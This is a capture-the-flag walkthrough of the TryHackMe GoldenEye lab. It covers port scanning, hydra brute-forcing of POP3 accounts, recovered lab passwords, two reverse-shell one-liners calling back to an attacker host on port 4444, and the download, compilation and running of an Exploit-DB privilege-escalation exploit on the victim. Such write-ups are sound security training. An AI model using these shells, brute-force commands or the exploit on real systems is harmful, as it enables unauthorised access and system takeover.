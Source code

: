 # GoldenEye

**Room Link:** [https://tryhackme.com/room/goldeneye](https://tryhackme.com/room/goldeneye)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## TCP/80 - HTTP

**Kali**

```
gobuster dir -u $VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We find a encoded password and also a potential other user, Natalya.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I can login to /sev-home now



```
Username: boris
Password: InvincibleHack3r
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## TCP/55007 - POP3

**Kali**

```
telnet $VICTIM 55007
USER boris
PASS InvincibleHack3r
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l natalya -P /usr/share/wordlists/fasttrack.txt pop3://$VICTIM:55007
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l boris -P /usr/share/wordlists/fasttrack.txt pop3://$VICTIM:55007
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





**Kali**

```
telnet $VICTIM 55007
USER natalya
PASS bird
RETR 1
RETR 2
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

New password still doesn't work but maybe can be used elsewhere.

**Kali**

```
telnet $VICTIM 55007
USER boris
PASS secret1!
RETR 1
RETR 2
RETR 3
```

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (17) (1) (1).png" alt=""><figcaption></figcaption></figure>





Added severnaya-station.com to my hosts file and then navigated to http://severnaya-station.com/gnocertdir as mentioned in the email

```
username: xenia
password: RCP90rulez!
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l doak -P /usr/share/wordlists/fasttrack.txt pop3://$VICTIM:55007
```



**Kali**

```
telnet $VICTIM 55007
USER doak
PASS goat
RETR 1
```

<figure><img src="../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (610).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (611).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (612).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
exiftool for-007.jpg 
echo 'eFdpbnRlcjE5OTV4IQ==' | base64 -d 
```

<figure><img src="../../.gitbook/assets/image (613).png" alt=""><figcaption></figcaption></figure>



It was the password for admin

```
Username: admin
Password: xWinter1995x!
```



## **Initial Shell**

**Kali**

```
nc -lvnp 4444
```

**Browser**

```
sh -c '(sleep 4062|telnet $KALI 4444|while : ; do sh && break; done 2>&1|telnet $KALI 4444 >/dev/null 2>&1 &)'
```

<figure><img src="../../.gitbook/assets/image (616).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (617).png" alt=""><figcaption></figcaption></figure>

It kind of worked but the shell kept breaking so I switched it to a python one and did the same thing.

**Kali**

<pre><code><strong>nc -lvnp 4444
</strong></code></pre>

**Browser**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$KALI",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

<figure><img src="../../.gitbook/assets/image (618).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (619).png" alt=""><figcaption></figcaption></figure>



Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```





### Privlege Escalation

Just changed below line from gcc to cc as gcc is not installed on the host

**Kali**

```
wget https://www.exploit-db.com/raw/37292 -O ofs.c 
python2 -m SimpleHTTPServer 81
```

<figure><img src="../../.gitbook/assets/image (620).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /tmp/
wget http://$KALI:81/ofs.c 
id
cc ofs.c -o ofs
./ofs
id
whoami
```

<figure><img src="../../.gitbook/assets/image (621).png" alt=""><figcaption></figcaption></figure>

